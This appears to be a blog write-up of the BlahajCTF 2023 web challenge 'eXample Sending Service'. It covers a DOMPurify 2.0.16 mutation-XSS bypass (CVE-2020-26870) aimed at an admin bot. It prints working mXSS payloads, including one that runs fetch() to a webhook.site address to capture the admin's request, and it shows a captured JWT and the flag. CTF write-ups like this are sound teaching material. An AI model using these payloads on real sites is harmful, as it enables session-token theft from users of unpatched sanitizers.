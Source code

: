 ```yaml
---
title: eXample Sending Service
date: 2023-12-05
tags:
- web
- xss
categories: BlahajCTF 2023
---
```


> As part of Halogen's cybersecurity exam, Blahaj has to get the flag only accessible by the administrator. But Blahaj cannot even type with his flippers, help him pass!

**Disclaimer: We did not solve the challenge but we were like 3 micrometers away from solving it**

This is an XSS Challenge that requires a DOPurify CVE:

{% ccb caption:app.js gutter1:36-40 lang:js %}
    const message = {
        name: DOMPurify.sanitize(req.body['name']),
        title: DOMPurify.sanitize(req.body['title']),
        body: DOMPurify.sanitize(req.body['message']),
    }
{% endccb %}

DOMPurify CVE Links:
- https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss
- https://portswigger.net/daily-swig/dompurify-mutation-xss-bypass-achieved-through-mathml-namespace-confusion
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26870

This is because in the `package.json`, dompurify is only v2.0.16
{% ccb caption:package.json gutter1:11-12 lang:json %}
  "dependencies": {
    "dompurify": "^2.0.16",
{% endccb %}

The admin bot reads the message and sets a header that contains the admin jwt, which can be used to access `/flag`:

{% ccb caption:admin.js gutter1:10-29 lang:js %}
// Just your typical admin bot that reads the message
async function notify(msg) {
    // Launch the browser and open a new blank page
    const browser = await puppeteer.launch({
        args: [
            '--no-sandbox',
            '--disable-setuid-sandbox'
        ]
    });
    const page = await browser.newPage();

    // Navigate the page to a URL
    page.setExtraHTTPHeaders({
        'Authorization': 'Bearer ' + jwt.sign({
            message: msg,
            username: "admin"
        }, flag)
    });
    await page.goto('http://localhost:3000/read');
}
{% endccb %}

{% ccb lang:html wrapped:true %}
<math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;/mglyph&gt;&lt;img&Tab;src=1&Tab;onerror=alert(1)&gt;">
{% endccb %}

When I tried testing around some javascript to xss into my https://webhook.site, I realized some of them was being caught by DOMPurify. So I decided to use [JSFuck](https://jsfuck.com/) to encode my payload, but while my XSS worked locally, it did not work on the admin, which lead me to spend most of time searching for how to circumvent this "check". However, it turns out that it was probably because my payload of jsfuck was just too big, so none of the payloads worked. If I did not encrypt my payload into JSFuck and just did something like:

{% ccb lang:html wrapped:true %}
<math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;/mglyph&gt;&lt;img&Tab;src=1&Tab;onerror=fetch('https://webhook.site')&gt;">
{% endccb %}

I would have received the admin jwt:
{% ccb wrapped:true %}
Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJtZXNzYWdlIjp7Im5hbWUiOiJhIiwidGl0bGUiOiJhIiwiYm9keSI6IjxtYXRoPjxtdGV4dD48bWdseXBoPjxzdHlsZT48IS0tPC9zdHlsZT48aW1nIHRpdGxlPVwiLS0-PC9tZ2x5cGg-PGltZ1x0c3JjPTFcdG9uZXJyb3I9ZmV0Y2goJ2h0dHBzOi8vd2ViaG9vay5zaXRlL2Q3ZWU3ODZhLTgwODQtNDM3Ny05OGFiLWZkZDU1MmFiMmQ0ZicpPlwiPlxuPC9tZ2x5cGg-PHRhYmxlPjwvdGFibGU-PC9tdGV4dD48L21hdGg-In0sInVzZXJuYW1lIjoiYWRtaW4iLCJpYXQiOjE3MDE3NjA0MzR9.VZl-aNmRsB4bEPIvdffdS6Rl9DcxLWYkLT5ZORvGAvg 
{% endccb %}

and could have gone on to get the flag: `blahaj{d1d_y0u_f0rg0r_t0_upd4t3?}`
